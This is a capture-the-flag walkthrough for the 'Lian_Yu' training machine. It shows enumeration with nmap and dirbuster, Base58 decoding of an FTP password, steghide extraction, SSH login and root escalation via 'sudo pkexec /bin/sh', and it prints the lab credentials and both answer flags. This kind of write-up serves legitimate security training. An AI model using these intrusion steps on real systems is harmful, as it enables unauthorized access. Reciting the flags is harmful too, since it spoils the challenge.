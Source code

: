 # Lian_Yu

### #1 Deploy the VM and Start the Enumeration.
Just deploy the mashine.

### #2 What is the Web Directory you found?
nmap -sV -sC <ip>
21/tcp  open  ftp     vsftpd 3.0.2
22/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
80/tcp  open  http    Apache httpd
111/tcp open  rpcbind 2-4 (RPC #100000)

Run dirbuster to see if there is some hidden folders on the webserver
```
dirbuster 
/island/ (This page gave me a code word) 
/island/2100
```
The /island page gave me a code word
```
Code Word is: 
vigilante
```
The web Directory we found
```
2100
```

### #3 what is the file name you found?
In the source code of /2100 there is a clue with the extention .ticket.
So we use dirbuster and search for files with the extention.

```
/island/2100/green_arrow.ticket
```

### #4 what is the FTP Password?
The file gave us:
``` 
This is just a token to get into Queen's Gambit(Ship)

RTy8yhBQdscX 
```
Because its a "token", lets try to decode it.
```
sudo john thm/lian_Yu/codeFromGreenArrowFile.txt rockyou.txt
```
John diddnt give me anything..

Tryed some webpages and got this from Base64, everything else gave me nothing
```
E<¼Ê.PvÇ.
```

So maybe Base58 encoded?
```
!#th3h00d
```

###5 what is the file name with SSH password?

Trying to logg into the ftp server using "The code word":
```
vigilante:!#th3h00d
```

Downloaded all the pictures, one of the pictures got a png header error.

```
hexeditor Leave_me_alone.png
```

Added the Png header
```
89  50  4e  47  0d  0a  1a  0a
```

The image gave me the password
```
password
```
Test if there is any hidden zip in the pictures
```
steghide extract -sf aa.jpg
password: password
```
Found a zip named ss.zip with two files, just tryed the filename as the answer to this question.
```
shado
```

### #6 User flag
Before when we were in the ftp server, checked if we could cd. Found another user, maybe the content of the shadofile was a password.
```
ssh slade:M3tahuman@<ip>
```
Cat out the user flag
```
cat /home/slade/user.txt
THM{P30P7E_K33P_53CRET5__C0MPUT3R5_D0N'T}
```

### #7 Root flag
Any files we can excecute as root without using password
```
sudo -l
(root) PASSWD: /usr/bin/pkexec
```
Exploit pkexec
```
sudo pkexec /bin/sh
```
Cat out the root flag
```
cat /root/root.txt
THM{MY_W0RD_I5_MY_B0ND_IF_I_ACC3PT_YOUR_CONTRACT_THEN_IT_WILL_BE_COMPL3TED_OR_I'LL_BE_D34D}
```
